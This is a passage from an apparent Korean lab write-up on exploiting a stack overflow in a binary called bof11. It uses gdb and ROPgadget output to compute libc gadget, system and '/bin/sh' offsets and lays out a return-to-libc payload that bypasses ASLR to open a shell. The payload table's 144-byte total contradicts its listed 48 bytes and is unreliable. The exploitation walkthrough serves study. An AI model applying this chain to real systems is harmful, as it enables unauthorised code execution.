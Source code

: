 먼저 다음과 같이 gdb 로 libc 의 시작 주소가 0x7f836fd8d000 라는 것을 확인했다. 

```shell
pwndbg> vmmap libc
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x7f836fd8d000     0x7f836ff4d000 r-xp   1c0000 0      /lib/x86_64-linux-gnu/libc-2.23.so
```

그리고 다음과 같이 `ROPgadget` 으로 오프셋을 찾을 수 있다. 

```shell
$ ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 | grep "pop rdi ; ret"
0x0000000000021102 : pop rdi ; ret
```

결론적으로 `pop rdi ; ret` 의 주소값을 구할 수 있다. 

`("pop rdi ; ret" 가젯의 주소값) = 0x7f836fd8d000 + 0x0000000000021102 = 0x7f836fdae102`

그러면 최종적으로 `Z` 를 계산해보자. 

```shell
pwndbg> p printf
$14 = {<text variable, no debug info>} 0x7f836fde2800 <__printf>
pwndbg> p/d 0x7f836fdae102 - 0x7f836fde2800
$15 = -214782
```

이렇게 `Z` 가 -214782 라는 것을 알 수 있다. 

#### buf 에서 return address 까지의 거리

vuln 함수가 시작되었을 때 rsp 의 주소값을 확인하자. 이 주소값에 vuln 함수의 리턴 어드레스가 저장되어 있다. 

```shell
pwndbg> i r rsp
rsp            0x7ffe25be74c8   0x7ffe25be74c8
```

그리고 gets 함수가 받는 인자를 확인해서 buf 의 주소값을 확인하고 리턴 주소값까지의 거리를 계산하자. 

```shell
pwndbg> p/d 0x7ffe25be74c8 - 0x7ffe25be74b0
$18 = 24
```

#### ASLR 우회 페이로드 

bof11 은 printf 함수의 주소값이 유출된다는 설정을 가지고 있기 때문에 유출된 printf 함수의 주소값을 `A` 라고 하자. 그러면 쉘을 실행시키기 위한 페이로드는 다음과 같이 정해진다. 

| 쓰레기 값 | "pop rdi ; ret" 주소값 | "/bin/sh" 주소값 | system 주소값 | **총** |
|:------:|:----:|:-----:|:-----:|:-----:|
| 24 바이트 | 8 바이트   | 8 바이트 | 8 바이트 | **144 바이트** |

`system 함수 주소값 = printf 주소값 + X = A + (-66672)`

`"/bin/sh" 주소값 = printf 주소값 + Y = A + 1275223`

`"pop rdi ; ret" 주소값 = printf 주소값 + Z = A + (-214782)`
